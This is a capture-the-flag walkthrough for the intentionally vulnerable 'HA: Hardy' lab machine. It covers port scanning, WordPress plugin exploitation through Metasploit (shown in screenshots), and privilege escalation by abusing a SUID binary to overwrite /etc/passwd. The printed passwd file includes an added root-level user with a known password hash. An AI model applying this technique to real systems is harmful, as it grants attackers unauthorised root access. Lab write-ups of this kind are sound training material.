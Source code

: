```yaml
---
categories: [proving-ground-play]
tags: [proving-ground,walkthrough,pentest]
---
```


Lets Check the IP address of the victim machine ⤵️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled.png)

```
IP : 10.0.2.36
```

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/ha_hardy]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.36
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-26 21:19 IST
Nmap scan report for 10.0.2.36
Host is up (0.00060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 08:00:27:D4:FE:FC (Oracle VirtualBox virtual NIC)
```

## Web Enumeration ⬇️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%201.png)

got a directory —> `/wordpress/` 

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%202.png)

with wpscan tool I got 2 users ➡️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%203.png)

I also found a vulnerability through wpscan in `reflex-gallery plugins` of wordpress so lets exploit it now >>

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%204.png)

Now with metasploit I exploit this >>

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%206.png)

Now lets run this ⤵️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%207.png)

Now lets look into `wp-config.php` file ➡️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%209.png)

Now let’s see the SUID’s files ➡️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2010.png)

So I think with this I will copy the /etc/passwd file , access with wget and modify with new user addon.

Now let’s access the passwd file in attackers machine ⤵️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2011.png)

Now lets add a user named as `shiv` and `password`as password in passwd file. 

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2012.png)

Lets see the passwd file ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/ha_hardy]
└─$ cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
cups-pk-helper:x:110:116:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:112:117::/nonexistent:/bin/false
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:114:119::/var/lib/saned:/usr/sbin/nologin
pulse:x:115:120:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:117:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:118:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:119:124::/var/lib/geoclue:/usr/sbin/nologin
gnome-initial-setup:x:120:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
raj:x:1000:1000:raj,,,:/home/raj:/bin/bash
mysql:x:122:128:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:124:65534::/run/sshd:/usr/sbin/nologin
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```

Now let’s transfer this file ➡️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2013.png)

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2014.png)

```bash
root@ubuntu:~# cat proof.txt
cat proof.txt
_________________________________________________________________________
 _____     _   _   U _____ u     U _____ u   _   _       ____     	|	
 |_ " _|   |'| |'|  \| ___"|/     \| ___"|/  | \ |"|     |  _"\   	|
   | |    /| |_| |\  |  _|"        |  _|"   <|  \| |>   /| | | |  	|	
  /| |\   U|  _  |u  | |___        | |___   U| |\  |u   U| |_| |\ 	|
 u |_|U    |_| |_|   |_____|       |_____|   |_| \_|     |____/ u 	|
 _// \\_   //   \\   <<   >>       <<   >>   ||   \\,-.   |||_    	|
(__) (__) (_") ("_) (__) (__)     (__) (__)  (_")  (_/   (__)_)   	|
									|
									|
!! Congrats you have finished this task !!				|
									|
Contact us here:							|
									|
Hacking Articles : https://twitter.com/rajchandel/			|
									|
									|
+-+-+-+-+-+ +-+-+-+-+-+-+-+						|
 |E|n|j|o|y| |H|A|C|K|I|N|G|						|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+						|
________________________________________________________________________|

                                                

root@ubuntu:~#
```